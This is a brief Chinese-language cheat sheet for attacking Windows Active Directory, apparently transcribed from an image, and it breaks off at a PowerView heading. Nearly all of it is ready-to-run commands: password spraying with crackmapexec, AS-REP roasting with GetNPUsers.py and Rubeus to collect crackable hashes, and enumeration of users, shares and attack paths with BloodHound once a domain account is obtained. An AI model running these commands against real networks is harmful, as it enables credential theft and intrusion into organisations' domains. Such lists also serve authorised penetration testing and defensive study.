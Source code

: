 ### 密码喷洒

```
获取域密码策略 ：
crackmapexec <IP> -u 'user' -p 'password' --pass-pol
enum4linx -u 'username' -p 'password' -P <IP>

cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # 不爆破，只测试单一的 user=password

cme smb <dc-ip> -u user.txt -p password.txt # 交叉爆破，根据密码策略，失败过多可能会被封禁
```

### ASREP-Roasting攻击

#### 获取hash

```
python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>

Rubeus asreproast /format:hashcat
```

#### 获取ASREP-Roastable账号

```
Get-DomainUser -PreauthNotRequired -Properties SamAccountName

MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

## 拿到任意一个域用户的账号密码

### 获取其他账户密码

#### 1.获取域内所有账户名

```
GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>
```

#### 2.枚举 SMB 共享

```
cme smb <ip> -u <user> -p <password> --shares
```

#### 3.bloodhound

```
bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all
```

#### 4.powerview / pywerview
